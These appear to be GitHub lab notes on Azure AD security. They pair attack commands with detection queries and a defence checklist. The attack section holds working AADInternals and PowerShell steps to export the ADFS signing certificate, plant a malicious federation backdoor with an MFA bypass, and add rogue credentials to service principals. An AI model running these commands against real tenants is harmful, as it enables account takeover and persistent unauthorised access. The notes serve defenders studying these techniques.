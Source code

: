 # AzureAD Security 

Quick notes from lab on Azure AD security  

## Attack

### Export ADFS certificate
Export-AADIntADFSSigningCertificate -filename ADFSSigningCertificate.pfx  

#### More info 

$ADFS = Get-WmiObject -Namespace root/ADFS -Class SecurityTokenService  
$conn = $ADFS.ConfigurationDatabaseConnectionString  
$SQLclient = new-object System.Data.SqlClient.SqlConnection -ArgumentList $conn  
$SQLclient.Open()  
$SQLcmd = $SQLclient.CreateCommand()  
$SQLcmd.CommandText = "SELECT ServiceSettingsData from IdentityServerPolicy.ServiceSettings"  
$SQLreader = $SQLcmd.ExecuteReader()  
$SQLreader.Read() | Out-Null  
$settings=$SQLreader.GetTextReader(0).ReadToEnd()  
$SQLreader.Dispose()  
\[xml\]$xml=$settings  

### Adding a malicious federation trust
Get-AADIntAccessTokenForAADGraph -savetocache                                                                       
ConvertTo-AADIntBackdoor -domain maliciousdomain.com     
get-msoluser | select UserPrincipalName, ImmutableId  
Open-AADIntOffice365Portal -ImmutableID $id -UseBuiltInCertificate -ByPassMFA $true -Issuer ISSUER  

(AuditLogs | where OperationName =~ "Set domain authentication")  
(AuditLogs | where OperationName =~ "Set federation settings on domain" )  

## Adding credentials to a service principle 

### Certificate 
$cert = New-SelfSignedCertificate -dnsname some.domain.com -CertStoreLocation cert:\LocalMachine\My -Provider “Microsoft Enhanced RSA and AES Cryptographic Provider”  
$keyValue = [System.Convert]::ToBase64String($cert.GetRawCertData())   
$sp = get-azureadserviceprincipal -searchstring SEARCHSTRING  
New-AzureADServicePrincipalKeyCredential -objectid $sp.ObjectId -EndDate "01-01-2022 12:00:00" -StartDate "01-03-2021 14:12:00" -CustomKeyIdentifier "Test" -Type AsymmetricX509Cert -Usage Verify -Value $keyValue  
Connect-AzureAD  -Tenant TENANTID -ApplicationID APPID -CertificateThumbprint CERTTHUMBPRINT  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Password
New-AzureADServicePrincipalPasswordCredential -objectid $sp.ObjectId -EndDate "01-01-2030 12:00:00" -StartDate "04-04-2020 12:00:00"  -Value PASSWORD  

(AuditLogs | where OperationName =~ "Update service principal")
(AuditLogs | where OperationName =~ "Add service principal credentials")

### Create a new service principle 
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null}  
$sp = New-AzADServicePrincipal -DisplayName 'MicrosoftSyncShare'  

## Defence 

Install-module azureadpreview
Connect-AzureAD  

Install-module ExchangeOnlineManagement
Connect-ExchangeOnline

Install-module MSOnline
Connect-MsolService  

### Auditing federation trusts
Azure AD  
Get-MsolDomain | Select * / Get-AzureADDomain | Select *  
Get-MsolFederationProperty (need to run this for each domain)  
Exchange Online  
Get-FederationTrust | Format-List
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo  
Get-FederatedOrganizationIdentifier -IncludeExtendedDomainInfo | select-object -expandproperty Domains  

### Auditing service principles
Get-AzureADServicePrincipal  
Get-AzureADServicePrincipal -all $true | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.KeyCredentials -ne $null} | Select *  
Get-AzureADServicePrincipal -all $true | Where-Object{$_.PasswordCredentials -ne $null} | Select *   

Reference for permissions - https://github.com/mepples21/azureadconfigassessment / https://github.com/mepples21/azureadconfigassessment/blob/master/permissiontable.csv

### Sentinel connectors
AzureActiveDirectory  
SecurityEvents  
Office365  
Microsoft 365 Defender  

### Other useful commands
Get-AADIntLoginInformation -Domain domain.com  
Get-AzureADTenantDetail | Select *  

### CISA Sparrow
https://github.com/cisagov/Sparrow/blob/develop/Sparrow.ps1  
Invoke-WebRequest 'https://github.com/cisagov/Sparrow/raw/develop/Sparrow.ps1' -OutFile 'Sparrow.ps1' -UseBasicParsing  

### Crowdstrike CRT
https://github.com/CrowdStrike/CRT/blob/main/Get-CRTReport.ps1  
https://www.crowdstrike.com/blog/crowdstrike-launches-free-tool-to-identify-and-help-mitigate-risks-in-azure-active-directory/  

App vs Service principal

https://docs.microsoft.com/en-us/azure/active-directory/develop/app-objects-and-service-principals#:~:text=principal%20object's%20properties.-,Relationship%20between%20application%20objects%20and%20service%20principals,use%20in%20a%20specific%20tenant.

https://twitter.com/SwiftOnSecurity/status/1217942428243632128?s=20  

https://www.youtube.com/watch?v=fpUZJxFK72k  

https://dirkjanm.io/talks/  

https://www.youtube.com/watch?v=SG2ibjuzRJM  

https://www.youtube.com/watch?v=JEIR5oGCwdg  

https://www.youtube.com/watch?v=LufXEPTlPak  

https://vimeo.com/214855977  

https://www.blackhillsinfosec.com/red-teaming-microsoft-part-1-active-directory-leaks-via-azure/  

https://www.fireeye.com/blog/threat-research/2020/09/detecting-microsoft-365-azure-active-directory-backdoors.html

https://www.youtube.com/watch?v=tJkjOnxcw6w


